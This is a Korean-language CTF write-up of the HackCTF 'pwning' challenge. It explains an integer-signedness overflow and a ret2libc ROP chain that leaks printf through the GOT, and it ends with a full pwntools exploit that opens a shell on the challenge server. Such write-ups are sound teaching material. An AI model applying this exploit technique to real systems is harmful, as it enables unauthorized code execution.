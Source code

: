 ```yaml
---
layout: post
title:  "HacCTF pwning write-up"
date:   2020-02-03 19:45:55
image:  hackctf_pwning.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] pwning

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled.png)

NX 비트 말고는 안걸려있다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%201.png)

몇 바이트를 입력할 것인지 사이즈를 묻고, 해당 사이즈 만큼 값을 입력할 수 있는 공간이 나온다. 그 뒤 입력한 데이터를 출력해주고 프로그램이 종료가 된다

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%202.png)

main 문은 별게 없고 vuln을 자세히 보면 된다. get_n 함수가 값을 입력할 수 있는 함수인 것같다. 또한 입력한 값의 범위는 32 미만으로 제한되어 있다.

32 미만의 값을 입력하면 get_n 함수를 한번 더 호출하여 데이터를 입력하게 된다. 그럼 get_n 함수를 살펴보자.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%203.png)

while문을 돌면서 getchar()를 통해 문자열을 입력받는다. 해당 반복문을 탈출하는 조건으로는 널 값을 입력하거나, get_nt 함수의 두번째 인자로 전달된 값보다 v5가 큰 경우에 탈출한다. 그리고 마지막으로 입력한 값이 10이면 종료를 한다.

여기서 v4==10의 의미는 getchar()가 호출되어 사용자가 데이터를 입력하고 엔터를 누르면 해당 엔터에 해당하는 아스키 값인 0xa까지 같이 들어가기 때문에 문자열의 끝을 판단하기 위한 조건이다.

해당 함수가 종료되고 atoi 함수를 이용하여 nptr 변수에 저장된 문자열을 정수로 변환 한다.

### 2. 접근방법

---

결국 이 문제도 사용자의 입력을 받는 부분에서 시작하여 비정상적인 위치에 원하는 값을 넣고 비정상적인 코드의 동작을 유발하는 것이 목적이다.

딱 봐도 ROP로 system 함수를 띄우는 것이 최종 목표로 보인다. 그렇다면 ret 값을 변경 할수 있는지 봐야한다. 

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%204.png)

vuln 함수를 다시 보면 atoi의 반환값이 v2에 들어간다. 헌데 v2는 signed int 형이므로 음수가 입력이 가능하다. 따라서 음수가 입력가능하다는 소리이고, 이를 통해 32보다 큰 데이터를 입력할 수 있다.

확인을 하다보면 get_n 함수에서 48바이트 크기의 문자열을 아무렇게 입력하게 되면, vuln 함수의 ret 바로 직전까지 해당 데이터가 들어간 것을 알수 있다. (이는 문제를 풀다보니 꼼수아닌 꼼수로..)

결국 "A"*48 + 특정 함수 이렇게 입력을 하면 vuln 함수가 return 되고 main으로 가는 것이 아닌 삽입한 주소로 이동한다. 하지만 vuln에서는 반복적인 로직이 아니므로 바로 종료가 된다.

우리가 필요한 것은 libc의 base주소이다. 따라서 printf의 ptl, got를 이용하여 libc의 printf 주소를 leak하고 다시 vuln함수로 돌아가도록 체인을 걸어줘야 한다.

그다음 얻게 된 printf 주소로 libc database를 활용하여 원하는 오프셋을 구하여 ROP를 진행하면 된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%205.png)

아래 0xf7dea020가 libc에 존재하는 printf의 주소이다.  하위 3바이트를 가지고 어느 버전의 libc인지 알아보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%206.png)

ubuntu20의 2.23 버전인 것을 확인할 수 있고 또한 printf, bin_sh, system 함수의 오프셋을 확인 가능하다. 이를 이용하여 ROP를 진행하면 끝이다.

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    
    p=remote("ctf.j0n9hyun.xyz",3019)
    #p=process("./pwning")
    #gdb.attach(p)
    p.sendlineafter("? ","-5")
    
    payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    payload +=p32(0x8048370)
    payload +=p32(0x804852f)
    payload +=p32(0x804a00c)
    p.sendlineafter("\n",payload)
    p.recvuntil("\n")
    printf_got=u32(p.recv()[:4])
    log.info(hex(printf_got))
    
    
    libc_base=printf_got-0x049020
    system_adr=libc_base+0x0003a940
    bin_adr=libc_base+0x15902b
    
    payload2="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    payload2+=p32(system_adr)
    payload2+="AAAA"
    payload2+=p32(bin_adr)
    
    p.sendline("-5")
    p.sendlineafter("\n",payload2)
    
    p.interactive()

### 4. 몰랐던 개념

---

모르는 개념은 없었지만, ROP를 진행하기 위해 반복문이 없어서 삽질을 좀 했다. 반복문이 없다면 만들면 될것을..

이렇게 반복문이 없는 로직에서 직접 해당 함수로 다시 돌아가는 ROP 문제를 몇개 풀었었는데 이젠 까먹지 말자.